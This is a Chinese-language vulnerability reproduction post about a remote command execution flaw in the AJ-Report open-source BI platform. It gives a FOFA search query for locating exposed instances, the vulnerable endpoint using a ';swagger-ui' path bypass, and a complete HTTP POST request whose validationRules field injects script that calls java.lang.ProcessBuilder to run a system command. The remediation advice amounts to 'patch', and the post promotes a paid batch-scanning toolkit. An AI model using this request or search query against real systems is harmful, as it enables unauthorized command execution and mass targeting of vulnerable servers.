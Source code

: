 #  开源数据大屏AJ-Report存在远程命令执行漏洞   
南风徐来  南风漏洞复现文库   2024-05-07 22:57  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 开源数据大屏AJ-Report简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
AJ-Report是一个完全开源的BI平台  
## 2.漏洞描述  
  
AJ-Report是一个完全开源的BI平台,酷炫大屏展示,能随时随地掌控业务动态,让每个决策都有数据支撑。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
AJ-Report  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaZXiaaVI8h6lA4nnwWq5KYNKhbslCqiaFRdVFiaQdJ0czbndQReCbriaOPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
开源数据大屏AJ-Report存在远程命令执行漏洞  
## 4.fofa查询语句  
  
title="AJ-Report"  
## 5.漏洞复现  
  
漏洞链接：http://xxx.xxx.xxx.xxx/dataSetParam/verification;swagger-ui/  
  
漏洞数据包：  
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Host: xxx.xxx.xxx.xxx
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Content-Length: 345

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"ipconfig\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgia9NtL5W1f8PlvT5RtkM1k1wgX8upGicu7jFDyKf20fhZjdOp4X7IhoMA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiazomInf4rLY0qBGDFRvlkpX4ib5M03LV7AqL1Wfh5tD7biaHZMlVN3ohw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaXgt8qcg60ib43ReWlR7FcvrSfzibJnia4uKO5zzR9kutXbY0WszaqdnXw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiajSLhg4u7ibGVCPFT4Vv20ntJH02Y0gJxTKncLjvVQiaYKQHQXIFevhbA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaEvsZ1ANousVdCkLlOgh7LOXnJyVpAss2rPzc929w9Vcqq7XoAEXzkA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bYdbZictWUicK6iaIecYLAbgiaw35C8BPYkGUmKVmMkMc6ib8GWC1QG9EY8ArHUVdBugIvNwLtB5scl3g/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[用友时空KSOA linksframe/linkadd.jsp接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486420&idx=1&sn=554681943252463531f2ab502b1e6f50&chksm=974b86d3a03c0fc5023167ad95a810cde23c79b973d4541ad5a708b046f6356b2e165fcdec78&scene=21#wechat_redirect)  
  
  
[图创图书馆集群管理系统 updOpuserPw接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486420&idx=2&sn=6a461c6f7a17fdcdb37ce5181a0437a8&chksm=974b86d3a03c0fc5b25d3592e1e135576bebb3f4f92b788e74d3ae43137f9747e135c7926705&scene=21#wechat_redirect)  
  
  
